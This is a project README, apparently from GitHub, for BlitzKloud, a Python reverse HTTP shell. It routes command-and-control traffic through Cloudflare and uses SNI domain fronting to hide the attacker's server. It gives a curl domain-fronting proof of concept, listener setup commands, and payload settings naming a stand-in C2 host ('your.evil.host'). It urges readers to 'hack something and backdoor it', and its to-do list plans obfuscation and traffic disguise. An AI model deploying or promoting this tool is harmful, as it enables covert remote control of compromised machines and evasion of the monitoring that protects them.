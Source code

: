 # BlitzKloud
==================

<p> A Cloudflare compatible, SNI/domain fronting compliant Reverse HTTP Shell with built in 
AES encryption. Written in Python3, with dependencies minimized.  </p>
<br>

<p><i> Darkerego 2019 ~ xelectron@protonmail.com ~ https://github.com/darkerego</i></p>


#### Concept



<p>Blitzkloud is a Cloudflare compatible reverse HTTP shell, with SNI 
domain fronting functionality. Because this shell does not yet support HTTPS, 
(and even if it did, remember, Cloudflare is giant MITM honeypot), the shell 
also has built in support for AES encryption (no external libaries needed for payload
because I imported functionality from pyaes directly into the paylaod!). 
The goal was to create a pure python3- powered reverse shell with miminal, (eventually no) 
outside dependencies (for portability), which allows the user to conceal the location of his or her
server (where we catch the shell), by both proxying through cloudflare, and hiding DNS 
requests to the destination server employing domain fronting tactics via SNI (server
name indication).
</p>

<p>
This functionality allows an attacker to hide their c&c server's ip and (to some extent) 
 domain, proxying commands and output through Cloudflare's global CDN, thus not revealing 
the IP address of your server. The shell also provides some obfuscation 
by exploiting Cloudflare's SNI bug/|feature domain fronting capabilities -- 
anyone monitoring DNS requests alone will not see the actual URL of your server:
</p>


<p><b>SNI Proof of Concept:</b></p>
<pre>
 $ curl -H "Host: your.remote.host" http://upwork.com
</pre>
<p>
For more details on SNI and domain fronting, see:
https://en.wikipedia.org/wiki/Domain_fronting
</p>
![GitHub Logo](domain-front.png) 
#### Usage

Requirements:

- VPS Server
- Cloudflare account
- Domain name (set up to use Cloudflare's CDN.)
- Human with an intelligence quota at least 120

<b>Setup & Configuration: </b>

<p>First, you will need an HTTP server that is on Cloudflare's network. Purchase a cheap VPS, we 
do not need anything fancy to run this. You can get one from Digital Ocean for $5 per month. Next, 
you will need a free account with Cloudflare. Finally, you need a domain name. </p>

<p>
Configure your DNS to use Cloudflare's network. Next, install the listener on your server:

<pre>
$ git clone https://github.com/darkerego/blitzcloud
$ cd blitzcloud
$ pip3 install --user -r requirements.txt
</pre>

<p>
Test to make sure that the listener runs and has been installed correctly:
</p>

<pre>
$ python3 ./srv.py
Starting httpd on ('0.0.0.0', 8880):8880...
</pre>

<p>Note: Cloudflare can proxy HTTP traffic on several different ports including 80, 8080, and 8800.</p>

<p>
Next, configure the server and payload. First, choose a key to encrypt all traffic with using the
built in AES libary. Key length must be a multiple of 16, and the key must be in byte format. 
Edit this line and choose a secure key:
</p>

<pre>
key = b"This_key_for_demo_purposes_only!"
</pre>

<p>This is the only thing that needs to be set in the server.py, however in the payload.py file, the 
following variables must be set:</p>

<pre>
debug = False  # Display errors and output (for debugging)
front_url = 'your.evil.host'  # your c&c server: example: developer.attacker.com
url = 'http://mediafire.com:8880'  # example: http://upwork.com:8880 - (include port of listener if not port 80 (http)
key = b"This_key_for_demo_purposes_only!"  # AES Encryption key - keep private, must be in byte form.
</pre>

<p>
Now, the rest is up to you. Hack something and backdoor it! Because this is Python, it is 
virtually platform agnostic -- in other words, if the target system can run Python3, it can 
run this payload as well.
</p>

TODO: 

- Figure out, is domain fronting over HTTPS still possible? If yes, implement
- Consider sending output back as a cookie with a get request instead a post
- Better discussing of payloads - (make traffic look as innocuous as possible)
- Implement command history in shell , OR
- Implement a full PTY over HTTP shell
- Options for packing, obfuscation, compilation
- More details in the README about how this all works
- Port backwards so payload is Python2 compatible
- Eliminate dependencies (like requests), rewrite using raw sockets
  
